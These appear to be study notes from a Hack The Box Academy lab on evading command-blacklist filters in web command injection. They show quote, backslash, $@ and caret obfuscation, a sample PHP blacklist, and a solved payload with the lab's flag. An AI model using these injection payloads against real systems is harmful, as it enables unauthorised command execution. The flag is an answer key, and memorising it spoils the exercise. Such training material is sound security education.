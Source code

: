 ```yaml
---
sticker: emoji//1f4bb
---
```

We have discussed various methods for bypassing single-character filters. However, there are different methods when it comes to bypassing blacklisted commands. A command blacklist usually consists of a set of words, and if we can obfuscate our commands and make them look different, we may be able to bypass the filters.

There are various methods of command obfuscation that vary in complexity, as we will touch upon later with command obfuscation tools. We will cover a few basic techniques that may enable us to change the look of our command to bypass filters manually.

---

## Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed: 

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_1.jpg)

We see that even though we used characters that are not blocked by the web application, the request gets blocked again once we added our command. This is likely due to another type of filter, which is a command blacklist filter.

A basic command blacklist filter in `PHP` would look like the following:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

As we can see, it is checking each word of the user input to see if it matches any of the blacklisted words. However, this code is looking for an exact match of the provided command, so if we send a slightly different command, it may not get blocked. Luckily, we can utilize various obfuscation techniques that will execute our command without using the exact command word.

---

## Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like `Bash` or `PowerShell` and will execute the same command as if they were not there. Some of these characters are a single-quote `'` and a double-quote `"`, in addition to a few others.

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

The same works with double-quotes as well:


```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_2.jpg)

As we can see, this method indeed works.

---

## Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the `bash` shell would ignore them and execute the command. These characters include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:


```bash
who$@ami
w\ho\am\i
```

Exercise: Try the above two examples in your payload, and see if they work in bypassing the command filter. If they do not, this may indicate that you may have used a filtered character. Would you be able to bypass that as well, using the techniques we learned in the previous section?

---

## Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

```cmd-session
C:\htb> who^ami

21y4d
```

# Question
----

![](Pasted image 20250205143422.png)

We can do the following command:

```
127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

```ad-important
##### Breakdown
---
- **Command Injection Operator (`%0a`)**
    
    - Uses a new-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
        
- **Obfuscated `cat` Command (`c'a't`)**
    
    - Inserts single quotes to bypass the `cat` command blacklist. The shell ignores the quotes and executes `cat`.
        
- **Space Replacement (`${IFS}`)**
    
    - Replaces the space between `cat` and the file path with the `Internal Field Separator` environment variable.
        
- **Slash Replacement (`${PATH:0:1}`)**
    
    - Extracts the `/` character from the `PATH` environment variable (e.g., `${PATH:0:1}` = `/`).
        
- **File Path**
    
    - Constructs the path to `flag.txt` as:  
        `/${PATH:0:1}home/${PATH:0:1}1nj3c70r/${PATH:0:1}flag.txt`.
```

This outputs:

```

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
HTB{b451c_f1l73r5_w0n7_570p_m3}
```

Flag is `HTB{b451c_f1l73r5_w0n7_570p_m3}`

